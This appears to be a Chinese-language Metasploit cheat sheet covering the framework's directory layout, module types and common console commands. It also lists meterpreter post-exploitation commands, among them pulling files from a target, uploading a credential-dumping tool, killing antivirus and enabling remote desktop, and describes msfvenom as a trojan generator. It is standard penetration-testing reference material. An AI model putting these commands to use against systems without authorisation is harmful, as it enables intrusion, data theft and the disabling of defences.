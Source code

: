 ### 简介

**MSF**

The Metasploit Framework的简称。MSF高度模块化,即框架由多个
module组成,是全球最受欢迎的工具。

是一款开源安全漏洞利用和测试工具,集成了各种平台上常见的溢出漏洞
和流行的shellcode,并持续保持更新。

metasploit涵盖了渗透测试中全过程,你可以在这个框架下利用现有的
Payload进行一系列的渗透测试。

### 目录

data: 包含metasploit用于存储某些漏洞、单词列表、图像等所需二进制文件的可编辑文件。
documentation: 包含框架的可用文档。
lib: metasploit的库文件夹。
plugins: 用来存放metasploit的插件。
scripts: 用来存放metasploit的脚本,包括meterpreter及其它脚本。
tools: 存放多种的命令行实用程序。
modules: 存储metasploit的模块文件。

#### modules目录

auxiliary: 辅助模块, 辅助渗透 (端口扫描、登录密码爆破、漏洞验证等)

exploits: 漏洞利用模块, 包含主流的漏洞利用脚本, 通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则: 操作系统/各种应用协议分类

payloads: 攻击载荷, 主要是攻击成功后在目标机器执行的代码, 比如反弹shell的代码

post: 后渗透阶段模块, 漏洞利用成功获得meterpreter之后, 向目标发送的一些功能性指令, 如: 提权等

encoders: 编码器模块, 主要包含各种编码工具, 对payload进行编码加密, 以便绕过入侵检测和过滤系统

evasion: 躲避模块, 用来生成免杀payload

nops: 由于IDS/IPS会检查数据包中不规则的数据, 在某些情况下, 比如针对溢出攻击, 某些特殊滑行字符串 (NOPS x90x90...) 则会因为被拦截而导致攻击失效。

### 常用命令

show exploits – 查看所有可用的渗透攻击程序代码
show auxiliary – 查看所有可用的辅助攻击工具
[show]options/advanced – 查看该模块可用选项
show payloads – 查看该模块适用的所有载荷代码
show targets - 查看该模块适用的攻击目标类型
search - 根据关键字搜索某模块
info – 显示某模块的详细信息
use - 使用某渗透攻击模块
back - 回退
set/unset - 设置/禁用模块中的某个参数
setg/unsetg - 设置/禁用适用于所有模块的全局参数
save - 将当前设置值保存下来,以便下次启动MSF终端时仍可使用

### meterpreter

meterpreter > background 放回后台
meterpreter > exit 关闭会话
meterpreter > help 帮助信息
meterpreter > sysinfo系统平台信息
meterpreter > screenshot 屏幕截取
meterpreter > shell 命令行shell (exit退出)
meterpreter > getlwd 查看本地目录
meterpreter > Icd 切换本地目录
meterpreter > getwd 查看目录
meterpreter > Is 查看文件目录列表
meterpreter > cd 切换目录
meterpreter > rm 删除文件

meterpreter > download C:\\1.txt 1.txt 下载文件
meterpreter > upload /var/www/wce.exe wce.exe 上传文件
meterpreter > search -d c: -f*.doc 搜索文件
meterpreter > execute -f cmd.exe -i 执行程序/命令
meterpreter > ps 查看进程
meterpreter > getuid 查看当前用户权限
meterpreter > run killav 关闭杀毒软件
meterpreter > run getgui-e 启用远程桌面
meterpreter > portfwd add -I 1234 -p 3389 -r <目标IP> 端口转发

### msfvenom

msfvenom是msfpayload和msfencode的组合。将这两个工具集成在一个框架实例中，
msfvenom是用来生成后门的软件，在目标机上执行后门，在本地监听上线

说白了就是生成木马的。将木马上传到靶机上并执行，拿到meterpreter
